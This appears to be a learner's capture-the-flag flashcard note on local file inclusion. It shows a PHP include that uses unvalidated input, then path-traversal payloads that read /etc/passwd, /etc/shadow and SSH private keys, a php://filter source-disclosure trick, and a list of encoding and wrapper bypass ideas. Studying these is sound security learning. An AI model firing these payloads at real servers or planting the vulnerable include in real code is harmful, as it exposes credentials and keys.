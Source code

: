 ```yaml
---
aliases:
  - CTF Notes
  - CTF Learning
  - Capture The Flag
  - Computer system
  - Linux
  - LFI
  - Local file inclusion
tags:
  - flashcard/active/ctf
  - function/index
  - language/in/English
---
```


#flashcard What is LFI

Access to server's local files because of vulnerabilies

Example vulnerable PHP code

```php
include($_GET['page'] . ".php");
```
1. User input ($_GET['page']) is used directly without validation
2. The include() function will try to read and include ANY file the web server has access to
3. No restrictions on:
    - File path (../ can be used to traverse directories)
    - File type (can include any file, not just PHP)

Corresponding attack to the above vulnerability
```php
http://vulnerable.com/index.php?page=../../../etc/passwd

# Original intended use:
page=header.php

# Malicious uses:
page=../../../etc/passwd    # Read system users
page=../../../etc/shadow    # Read password hashes
page=../../.ssh/id_rsa      # Read SSH keys
```

#flashcard what are the common files to target? _(what files? server's local files, right?)_

```
/etc/passwd     # User information
/etc/hosts      # Network configuration
/proc/self/environ  # Environment variables
/var/log/apache2/access.log  # Web server logs
php://filter/convert.base64-encode/resource=index.php  # Read PHP source code
```

#flashcard What mindsets to acquire?


-    Try both absolute and relative paths _(what is absolute path and what is relative path)_
-    Use different encoding methods (URL encoding, double encoding) _(what is URL encoding and double encoding, how can they be applied, examples?)_
-    Look for wrapper bypasses (php://filter, zip://, data://) _(what are they, no idea whats rapper bypasses)_

